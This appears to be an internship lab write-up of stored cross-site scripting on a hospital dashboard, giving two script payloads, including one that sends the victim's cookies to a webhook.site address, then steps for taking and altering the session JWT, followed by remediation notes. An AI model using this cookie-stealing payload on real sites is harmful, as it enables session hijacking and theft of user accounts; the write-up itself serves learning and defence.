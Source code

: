 # XSS – MedCare Dashboard

##  What I Did
I tested for **Stored Cross-Site Scripting (XSS)** on a custom hospital dashboard. Injected JavaScript inside the patient message input, and it got executed across all user dashboards (Stored XSS).

---

##  Tools Used
- vulnerable site
- JavaScript payloads
- webhook.site (for capturing cookies, optional)
- DevTools (Application tab)

---

## Screenshot – Stored XSS Triggered
![xss](../images/XSS.jpg)

---

##  Steps

### 1. Injected the payload in “Patient Message”:
```html
<script>alert(document.cookie)</script>

### 2. Used Cookie Stealer

<script>fetch("https://webhook.site/YOUR-ID?cookie=" + document.cookie)</script>
This payload secretly sent the cookies of the doctor user to my webhook endpoint.

3. Checked DevTools → Application → Cookies
Grabbed the session JWT from the browser

Used jwt.io to decode the token and modify if needed

## XSS Types Explored During Internship

### 1.Reflected-Payload executes immediately 
### 2.Stored-Payload is saved in DB, affects all users
### 3.DOM-Based	Executed via JS logic, not saved on server

## Fixes from Internship Notes
### 1.HttpOnly Cookie
Prevent JavaScript from reading cookies

### 2.Whitelist Inputs
Only allow valid characters, block <script> and JS tags

### 3.Use Proper Escaping
Encode HTML special chars before rendering

### 4.Enable SameSite + Secure Flags
Prevents cross-origin and insecure transfers

### 5.JWT Security
Use strong signature algo (RS256), never trust user-controlled JWTs blindly
